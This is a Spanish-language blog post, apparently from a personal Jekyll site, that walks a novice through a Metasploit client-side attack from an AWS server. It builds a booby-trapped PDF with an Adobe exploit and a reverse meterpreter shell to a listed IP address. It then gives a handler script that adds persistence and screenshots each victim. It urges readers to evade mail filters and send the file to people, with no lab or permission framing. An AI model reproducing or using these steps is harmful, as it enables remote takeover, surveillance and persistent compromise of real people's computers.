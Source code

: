 ```yaml
---
layout: post
title: "metasploit - client side attack"
---
```


## {{ page.title }}
###### {{ page.date | date_to_string }}

**[![](/assets/img/60.png)](/assets/img/60.png)**

#### Introducción

Entonces, estaba el otro día hablando sobre temas de seguridad y salíeron a mención metasploit y set, dos herramientas que facilitan el trabajo en el area, no conozco a persona interesada por el tema que no lo conozca. Hace algunos años habia estado interesado en mfs, así que pude notar la gran mejoria respecto a aquellos tiempos. Es increible, me siento como un chico de pelicula de policias cuando lo ejecuto.

Después de la charla, me quede con la espinita de que tan fácil sería montar algo usable por un total noob en el tema (me), y nada, al parecer hemos llegado a un punto donde cualquier persona puede montar una plataforma relativamente robusta para lanzar ataques. MMM, bueno, eso es desde hace tiempo, pero ahora, junto ahora (y justo como lo he experimentado) es muy fácil y no se requieren de mucha preparación. Tenemos servicios, como AWS, Linode que también ayudan a superar las limitaciones de las configuraciones NAT y el uptime. En mi opinión es una de las mejoras epocas para involucrarse en la seguridad informática.

Sin más preambulos, dejaré unos apuntes...  daré por sentado que se tiene una cuenta en AWS, es todo lo que realmente necesitaremos...

### Instalación

Lo primero que se tendrá que hacer, será instalar msf en la máquina virtual de AWS, en mi caso, he instalado ubuntu 12.04.., también es buena idea, abrir los puertos, 80, 443 y 22, por defecto solo abrira el 22, así que tendran que configurar el perfil de seguridad. Paquetes básicos

<pre class="sh_sh">
$ sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev \
  libreadline5 libsqlite3-dev libpcap-dev subversion openjdk-7-jre git-core \
  autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer \
  libyaml-dev ruby1.9.3 nmap
</pre>

Gemas necesarias:

<pre class="sh_sh">
$ sudo gem install wirble msgpack sqlite3 pg activerecord nokogiri
</pre>

Metasploit

<pre class="sh_sh">
$ git clone https://github.com/rapid7/metasploit-framework mfs
</pre>

Esto creará una carpeta llamada 'mfs' con el framework dentro, ahora será momento de obtener privilegios de super usuario (para poder poner a escuchar handlers en cualquier puerto):

<pre class="sh_sh">
$ sudo su
# 
</pre>

- [http://www.darkoperator.com/installing-metasploit-in-ubuntu/](http://www.darkoperator.com/installing-metasploit-in-ubuntu/)
- [https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment](https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment)


### Payload

Una vez instalado, hay que crear un archivo que pueda ser enviado, que explote una vulnerabilidad en el equipo remoto y que nos devuelva el control del mismo, con metasploit es muy fácil:

<pre class="sh_sh">
# cd mfs/
mfs # ./msfconsole
...
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(adobe_utilprintf) > set FILENAME ganaste.pdf
FILENAME => ganaste.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 107.21.182.228
LHOST => 107.21.182.228
msf exploit(adobe_utilprintf) > set LPORT 443 (https)
msf exploit(adobe_utilprintf) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Creating 'ganaste.pdf' file...
[*] Generated output file /root/ganaste.pdf
[*] Exploit completed, but no session was created.
</pre>

Por defecto, el archivo que genera mfs no será util, gmail, hotmail, yahoo, no permitiran enviarlo, al detectarlo como un archivo malicioso, así que aquí tendrán que usar su imaginación para hacerlo indetectable.., lamentablemente no puedo ayudar con esa parte.., si lo hiciera y alguien más siguiera estos pasos seguramente dentro de poco, el método que utilice dejaría de ser util.., pero adelanto que no es demasiado complicado, solo es cuestión de buscar un poco y mfs ayuda mucho.., un par de horas de pruebas-errores deberian bastarles para encontrar un método que funcione.

- [http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks](http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks)

### Handler (servidor)

Listo, una vez que tengan un archivo indetectable, pueden enviarlo masivamente o selectivamente a las personas que lo deseen y a pulse de raton, tendran sesiones en cada una de esas computadoras (siempre y cuando hayan sido afectadas por la vulnerabilidad en cuestión). Para poder usar las sesiones más de una vez, es una buena idea migrar la sesión a un proceso más estable (en lugar de adobe, que en la máquina atacada se vera congelado y después mostrará una pantalla en blanco, pantalla que la mayoría de los usuarios cerraran, terminando la conexión) y luego configurarlo para que inicie con el sistema.

<pre class="sh_sh">
# cat /root/migrate_persistence.rc
run post/windows/manage/migrate
run persistence -U -i 5 -p 443 -r 107.21.182.22 //o la ip de la máquina donde tengan mfs
</pre>

<pre class="sh_sh">
# cat /root/autoruncommands.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
set LHOST 107.21.182.22
set AutoRunScript multi_console_command -rc /root/migrate_persistence.rc
set ExitOnSession false
exploit -j

-ruby-
  sleep(1)
  print_status("waiting on an incoming session...")
  while (true)
    framework.sessions.each_pair do |sid,s|
    thost = s.session_host

    if s.ext.aliases['stdapi']
      print_status("Screenshotting session #{sid} #{thost}...")
      s.console.run_single("screenshot -p #{thost}_#{sid}.jpg -v false -q 85")
    else
      print_status("session #{sid} #{thost} active, but not yet configurated")
    end
  end
end
-/ruby-
</pre>

<pre class="sh_sh">
# ./msfconsole -r /root/autoruncommands.rc
</pre>

- [http://johnbabio.wordpress.com/tag/autorunscript/](http://johnbabio.wordpress.com/tag/autorunscript/)

Listop, podemos empezar a divertirnos

- [http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics](http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics)
- [http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules](http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules)
- [http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/](http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/)
- [http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html](http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html)
